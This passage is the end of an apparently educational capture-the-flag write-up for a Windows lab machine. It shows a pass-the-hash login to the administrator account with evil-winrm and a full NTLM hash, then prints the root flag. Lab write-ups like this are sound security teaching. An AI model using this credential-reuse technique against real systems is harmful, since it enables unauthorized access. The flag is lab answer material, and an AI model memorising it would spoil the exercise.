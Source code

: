Luckily, we can pass the hash with `evil-winrm`, so long as we annotate the correct path with the ruby file. Pass with: 

`KALI: ruby /var/lib/gems/3.1.0/gems/evil-winrm-3.5/evil-winrm.rb -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`

![Image](/assets/Screenshot 2024-09-15 at 2.46.04 AM.png)

![Image](/assets/Screenshot 2024-09-15 at 2.41.16 AM.png)

Mosey around to your flag!

`ROOT:bc07f404616302a5b807f47e1d280a7a`

#windows #easy #manual 
